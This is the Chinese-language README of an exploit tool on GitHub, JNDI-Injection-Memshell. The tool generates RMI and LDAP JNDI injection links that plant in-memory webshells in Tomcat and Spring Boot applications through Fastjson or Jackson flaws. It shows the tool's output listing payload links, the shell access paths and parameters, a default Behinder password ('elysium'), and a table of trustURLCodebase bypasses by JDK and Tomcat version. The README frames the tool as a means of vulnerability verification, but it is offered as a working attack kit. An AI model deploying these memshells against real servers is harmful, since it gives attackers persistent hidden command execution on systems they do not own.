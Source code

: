 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links----------------------------
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/hcs9gf
ldap://127.0.0.1:1389/hcs9gf
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/047ucq
ldap://127.0.0.1:1389/047ucq
Target environment(Build in JDK bypass trustURLCodebase is false by Groovy):
rmi://127.0.0.1:1099/gfklse
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/gupdzc
ldap://127.0.0.1:1389/gupdzc
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/n5tnhz
ldap://127.0.0.1:1389/n5tnhz
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/fbnegt
ldap://127.0.0.1:1389/fbnegt
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/mpqyi4
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/kmfzhn
ldap://127.0.0.1:1389/kmfzhn
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/vlnzlt
ldap://127.0.0.1:1389/vlnzlt
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/21jrzn
ldap://127.0.0.1:1389/21jrzn

----------------------------Server Log----------------------------
2023-09-01 15:28:37 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-01 15:28:37 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-01 15:28:37 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
  
- Bypass JDK高版本trustURLCodebase,by Groovy的方式

  - 前提条件，Tomcat版本小于9.0.63,并且存在Groovy依赖在classpath中
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。



- 实测了一下通过EL表达式来bypassJDK的JNDI注入的`trustURLCodebase`的限制的方法测试版本

| JDK版本  | Springboot版本 | 内置的Tomcat版本     | 能否执行命令 |
| -------- | -------------- | -------------------- | ------------ |
| JDK8u191 | 2.5.13         | Apache Tomcat/9.0.62 | ✅            |
| JDK8u191 | 2.5.14         | Apache Tomcat/9.0.63 | ❌            |



## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- ~~融合groovy的bypass RCE到项目中。~~
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马
- 增加LDAP反序列化利用场景，最好能有利用链探测哈哈


喜欢的朋友可以帮忙点一个Star。 :）

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
